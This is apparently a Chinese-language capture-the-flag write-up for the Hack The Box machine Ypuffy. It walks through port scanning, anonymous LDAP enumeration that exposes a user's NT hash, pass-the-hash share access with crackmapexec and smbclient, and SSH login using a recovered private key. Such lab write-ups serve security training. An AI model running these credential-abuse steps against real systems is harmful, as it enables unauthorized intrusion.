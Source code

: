 ```yaml
---
title: Ypuffy（LDAP空连接）
categories:
- training
tags:
- training
---
```

## scan
```
22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY

Host script results:
|_clock-skew: mean: 1h35m01s, deviation: 2h53m13s, median: -4m59s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6)
|   Computer name: ypuffy
|   NetBIOS computer name: YPUFFY\x00
|   Domain name: hackthebox.htb
|   FQDN: ypuffy.hackthebox.htb
|_  System time: 2019-02-05T06:46:27-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-02-05 19:46:27
|_  start_date: N/A
```
第一步，发现了不少于2个端口开放，简便起见，用nessus扫描一下。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-09/3.PNG)

## smb
```
smbclient -L 10.10.10.107
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Anonymous login successful
OS=[Windows 6.1] Server=[Samba 4.7.6]
tree connect failed: NT_STATUS_ACCESS_DENIED
---
smbmap -P 139 -H 10.10.10.107
smbmap -P 445 -H 10.10.10.107
连接被拒绝
```
## web
连接一直重置。
```
--2019-02-05 20:44:45--  (try:18)  http://10.10.10.107/
Connecting to 10.10.10.107:80... connected.
HTTP request sent, awaiting response... No data received.
Retrying.
```
## port389: ldap

参考资料：[LDAP基础：6：使用ldapsearch进行数据查询](https://blog.csdn.net/liumiaocn/article/details/83990918)
```
远程LDAP服务器支持具有NULL或空基础对象的搜索请求。 这允许在不事先了解目录结构的情况下检索信息。 与NULL BIND结合使用，匿名用户可以使用“LdapMiner”等工具查询LDAP服务器。

请注意，有正当理由允许使用NULL基础的查询。
例如，LDAP协议的版本3中需要提供对根DSA特定条目（DSE）的访问，其中包含有关支持的命名上下文，身份验证类型等的信息。 这也意味着合法用户可以在不事先了解其结构的情况下在目录中查找信息。
```
>ldapsearch -h 10.10.10.107 -p 389 -x -b dc=hackthebox,dc=htb
-h 指定ip
-p 指定端口
-x 简单验证
-b 设置DN，可以通过nmap脚本扫描到DN内容

>nmap -p 389 --script ldap-search ypuffy.htb

通过搜索关键字，发现用户名alice1978，LM密码`0B186E661BBDBDCF6047784DE8B9FD8B`

`crackmapexec ypuffy.htb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B --share`
使用该口令列出445端口共享的文件，alice文件夹具有读写权限

`smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash //ypuffy.htb/alice`
发现一个文件my_private_key.ppk，这是一个ssh私钥

`ssh -i alice.key alice1978@ypuffy.htb`
得到一个普通用户权限

## 总结
对漏洞的成功利用，基于对服务的了解。

- ldap协议是什么？
Lightweight Directory Access Protocol，轻量级目录访问协议。LDAP的目的是**快速响应查找需求**。一次写入，多次读取。弱数据库。


